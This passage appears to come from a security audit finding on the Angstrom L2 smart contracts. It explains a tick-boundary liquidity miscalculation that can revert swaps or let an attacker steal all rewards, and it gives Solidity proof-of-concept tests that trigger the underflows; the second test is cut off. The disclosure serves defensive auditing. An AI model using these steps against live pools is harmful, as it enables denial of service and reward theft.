 * Thus when the attacker finally removes their liquidity from `[t1 - s, t1)`, they receive the full `R` rewards and realize a profit.

**Impact:** The active liquidity is calculated incorrectly when the current tick is an exact multiple of the tick spacing at the upper end of a liquidity range. In certain circumstances, this can result in swaps reverting due to underflow. In others, for example if there are multiple overlapping liquidity positions, this can result in incorrect distribution of rewards. In the most impactful case, an attacker can steal all the rewards at a profit.

**Proof of Concept:**
1. This test will cause a liquidity underflow in `_zeroForOneCreditRewards()` at [AngstromL2.sol#L364](https://github.com/sorellaLabs/l2-angstrom/blob/386baff9f903aabb48eeb813d3bd629fc740f50a/src/AngstromL2.sol#L364)

```solidity
function test_cyfrin_swapToBoundaryAddLiqudityAndSwapBackForRevert() public {
    uint256 PRIORITY_FEE = 0.7 gwei;
    int24 INIT_T0 = -50;
    int24 INIT_T1 = 50;
    int24 T0 = 10;
    int24 T1 = 30;

    /* Preconditions */
    assertGt(T0, INIT_T0, "precondition: T0 > INIT_T0");
    assertLt(T1, INIT_T1, "precondition: T1 < INIT_T1");

    PoolKey memory key = initializePool(address(token), 10, 3);
    PoolId id = key.toId();

    angstrom.setPoolLPFee(key, 0.005e6);
    setPriorityFee(PRIORITY_FEE);

    addLiquidity(key, INIT_T0, INIT_T1, 10e21);
    bumpBlock();
    router.swap(key, false, -1000e18, int24(T1).getSqrtPriceAtTick());
    int24 currentTick = manager.getSlot0(id).tick();
    assertEq(currentTick, T1, "precondition: After swap must be sitting on T1");

    addLiquidity(key, T0, T1, 10e21);

    // Now swap back
    bumpBlock();
    router.swap(key, true, -1000e18, int24(INIT_T0 - 1).getSqrtPriceAtTick());
}
```

2. This test will cause a liquidity underflow in `getZeroForOne()` at [CompensationPriceFinder.sol#L67](https://github.com/sorellaLabs/l2-angstrom/blob/386baff9f903aabb48eeb813d3bd629fc740f50a/src/libraries/CompensationPriceFinder.sol#L67)

```solidity
function test_cyfrin_swapBackwardsFromTickBoundaryAndRevert() public {
    uint256 PRIORITY_FEE = 0.7 gwei;
    PoolKey memory key = initializePool(address(token), 10, 20);
    angstrom.setPoolLPFee(key, 50000);

    addLiquidity(key, -10, 20, 10e21);
    assertEq(getRewards(key, -10, 20), 0);

    bumpBlock();

    setPriorityFee(PRIORITY_FEE);
    // NOTE: this currently reverts when decrementing liquidity net in CompensationPriceFinder::getZeroForOne
    // because the swap begins at the upper tick of the position (20), where Uniswap determines the liquidity is 0.
```